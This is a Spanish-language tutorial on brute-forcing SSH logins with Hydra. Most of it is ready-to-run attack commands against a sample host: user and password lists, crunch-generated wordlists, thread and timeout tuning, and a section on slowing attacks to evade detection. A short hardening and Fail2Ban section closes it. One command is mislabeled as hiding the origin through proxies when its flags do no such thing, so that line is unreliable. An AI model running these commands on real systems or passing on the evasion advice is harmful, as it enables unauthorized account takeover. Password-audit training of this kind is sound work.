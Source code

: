 # Introducción a Hydra

Hydra es una herramienta de fuerza bruta que soporta múltiples protocolos de red, incluyendo SSH, FTP, HTTP, y muchos otros. Es ampliamente utilizada en:

- **Pentesting**: Evaluación de la fortaleza de contraseñas
- **Auditorías de seguridad**: Identificación de cuentas vulnerables
- **Pruebas de resistencia**: Verificación de políticas de contraseñas


# Instalación y Configuración

## Instalación en Linux

```bash
# Ubuntu/Debian
sudo apt-get install hydra

# CentOS/RHEL
sudo yum install hydra

# Arch Linux
sudo pacman -S hydra
```

## Verificación de Instalación

```bash
hydra -h
```


# Uso Básico de Hydra

## Sintaxis General


```bash
hydra [opciones] servidor protocolo
```


# Ataques SSH Básicos

## Ataque con Usuario y Lista de Contraseñas


```bash
# Usar lista de contraseñas
hydra -l admin -P passwords.txt ssh://192.168.1.100

# Múltiples threads para mayor velocidad
hydra -l admin -P passwords.txt -t 4 ssh://192.168.1.100
```

## Ataque con Lista de Usuarios

```bash
# Lista de usuarios y contraseñas
hydra -L users.txt -P passwords.txt ssh://192.168.1.100

# Usuario específico con contraseña específica
hydra -l root -p toor ssh://192.168.1.100
```


# Técnicas Avanzadas

## Configuración de Parámetros

```bash
# Configurar timeouts y reintentos
hydra -l admin -P passwords.txt -t 4 -w 30 -f ssh://192.168.1.100

# Parámetros explicados:
# -t 4: 4 threads paralelos
# -w 30: timeout de 30 segundos
# -f: parar después del primer login exitoso
```

## Ataques con Patrones

```bash
# Generar patrones con crunch
crunch 6 8 -t admin@@@ | hydra -l admin -P - ssh://192.168.1.100

# Combinar con generadores de contraseñas
hydra -l admin -P <(crunch 4 6 0123456789) ssh://192.168.1.100
```


# Evasión y Optimización

## Evasión de Detección

```bash
# Reducir velocidad para evitar detección
hydra -l admin -P passwords.txt -t 1 -w 60 ssh://192.168.1.100

# Usar proxies para ocultar origen
hydra -l admin -P passwords.txt -s 22 -e nsr ssh://192.168.1.100
```

## Optimización de Rendimiento

```bash
# Maximizar threads (cuidado con la detección)
hydra -l admin -P passwords.txt -t 16 ssh://192.168.1.100

# Usar múltiples IPs objetivo
hydra -l admin -P passwords.txt -M targets.txt ssh
```


# Contramedidas y Defensa

## Configuración SSH Segura

```bash
# /etc/ssh/sshd_config
MaxAuthTries 3
LoginGraceTime 60
PermitRootLogin no
PasswordAuthentication no
PubkeyAuthentication yes
```

## Fail2Ban Configuration

```bash
# /etc/fail2ban/jail.local
[sshd]
enabled = true
port = ssh
filter = sshd
logpath = /var/log/auth.log
maxretry = 3
bantime = 3600
```